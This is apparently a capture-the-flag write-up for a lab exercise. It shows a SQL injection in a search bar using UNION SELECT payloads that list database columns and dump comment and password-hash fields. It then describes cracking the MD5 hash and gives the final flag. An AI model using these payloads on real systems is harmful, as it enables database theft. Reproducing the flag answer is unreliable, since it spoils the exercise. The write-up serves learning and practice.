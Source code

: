 # flag 0 | sql injection

In this exploit, we will do an sql injection in the `search bar`

If we enter a value like 1, 2, 3 in the searchbar, it will give us some informations
```txt
ID: 1 
First name: one
Surname : me
```

We can do
```sql
10 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS
```

We will see all the possible fields, we can see that there is some fields 
```md
    - Commentaire
    - countersign
    - id_comment
    - url
    - vote
```

We can try to show all the comments and countersign

```sql
1 UNION SELECT Commentaire, countersign FROM users
```

```sql
ID: 1 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

So we have to decrypt `5ff9d0165b4f92b14994e5c685cdce28` after some search, we found that it's on md5 and is an equivalent of fortytwo

we have to encrypt it on sha256

Here is the final flag: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`